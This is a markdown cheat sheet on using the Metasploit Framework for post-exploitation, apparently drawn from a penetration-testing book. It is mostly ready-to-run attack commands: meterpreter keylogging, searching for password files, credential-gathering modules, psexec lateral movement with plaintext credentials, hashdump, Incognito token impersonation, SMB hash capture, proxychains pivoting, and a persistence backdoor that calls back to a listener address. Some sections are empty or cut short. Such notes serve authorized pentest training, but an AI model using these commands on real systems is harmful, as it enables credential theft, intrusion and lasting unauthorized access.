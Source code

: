 
## Introduction

The Metasploit Framework (MSF) is far more than just a collection of exploits–it is also a solid foundation that you can build upon and easily customize to meet your needs.

### Architecture

#### Directories

Within Kali, Metasploit is installed in the /usr/share/metasploit-framework directory

- **/usr/share/metasploit-framework/data/**: Contains editable files used by Metasploit to store binaries required for certain exploits, wordlists, images,...
- **/usr/share/metasploit-framework/documentation/**: Contains the available documentation for the framework.
- **/usr/share/metasploit-framework/lib/**: Contains the heart of the framework code base
- **/usr/share/metasploit-framework/modules/**: Contains the modules for exploits, auxiliary and post modules, payloads, encoders, and nop generators.
- **/usr/share/metasploit-framework/plugins/**: Contains the plugins you may use with metasploit

#### Modules

msfconsole
> **msf >** info module
> **msf exploit(xxxx)>** show options
> **msf exploit(xxxx)>** show advanced

Metasploit gives you the option to load modules after msfconsole has already been started.

> msf > loadpath /usr/share/metasploit-framework/modules/



> show targets
> set target 0


###

msfencode -l


### Information Gathering

#### Searching Interesting Files

We can search for files that contains the word *password* in it.
> meterpreter > search -f *password*

#### Keylogger

Within metasploit, there is a keylogger, we can start the keylogger by executing the following command

> meterpreter > keyscan_start

Then, after some time, we can dump the output.

> meterpreter > keyscan_dump

#### Gathering module

Within */usr/share/metasploit-framework/modules/post/windows/gather/credentials*, there are a lot of modules that can be used to gather credentials

msf > use post/windows/gather/credentials/winscp

### Lateral Movement

exploit/windows/smb/psexec

> **msf >** use exploit/windows/smb/psexec
> **msf exploit(psexec) >** set RHOST 192.168.20.10
> **msf exploit(psexec) >** set SMBUser georgia
> **msf exploit(psexec) >** set SMBPass password
> **msf exploit(psexec) >** exploit


The PSExec technique originated in the Sysinternals Windows management tool set in the late 1990s. The utility worked by using valid credentials
to connect to the ADMIN$ share on the Windows XP SMB server. PSExec
uploads a Windows service executable to the ADMIN$ share and then connects to the Windows Service Control Manager using remote procedure
call (RPC) to start the executable service



meterpreter > shell
meterpreter > hashdump


When using the hashdump Meterpreter command against newer Windows operating
systems, you may find that it fails. An alternative is the post module: post/windows/
gather/hashdump.

msf > use exploit/windows/smb/psexec

Like PSExec for Windows, we can use SSHExec to move through an environment’s Linux systems if we have even one set of valid credentials, which
are likely to work elsewhere in the environment. 

### SSHexec

msf > use exploit/multi/ssh/sshexec

We’re on a compromised system: our Windows XP target. Which tokens are
on the system, and how do we steal them? Incognito was originally a standalone tool developed by security researchers conducting research into using
token stealing for privilege escalation, but it has since been added as an
extension to Meterpreter. 

### Incognito

Incognito is not loaded into Meterpreter by default, but we can add it
with the load command, as shown here.

meterpreter > load incognito
meterpreter > use incognito
meterpreter > list_tokens -u

meterpreter > impersonate_token BOOKXP\\secret


https://gracefulsecurity.com/privesc-stealing-windows-access-tokens-incognito/

As we list tokens, Incognito
searches all handles on the system to determine which ones belong to tokens
using low-level Windows API calls.

We see tokens for both georgia and secret. Let’s try stealing secret’s
delegation token, effectively gaining the privileges of this user. Use the
impersonate_token command to steal the token, as shown in Listing 13-26.
(Note that we use two backslashes to escape the backslash between the
domain—in this case, the local machine name—and the username.)
meterpreter > impersonate_token BOOKXP\\secret


### SMB

msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > set JOHNPWFILE /root/johnfile





using the ProxyChains tool (which
redirects traffic to proxy servers) to send our traffic from other Kali tools
through Metasploit.

msf > use auxiliary/server/socks4a 



socks4 127.0.0.1 1080
proxychains nmap -Pn -sT -sV -p 445,446 172.16.85.190

### Persistencce

The Meterpreter script **persistence** automates the creation of a Windows backdoor that will automatically connect back to a Metasploit listener at startup, login, and so on, based on the options we use when creating it

> meterpreter > run persistence -h

#### Windows

- **-U**: Automatically start the agent when the User logs on

> meterpreter > run persistence -r 192.168.20.9 -p 2345 -U

#### Linux

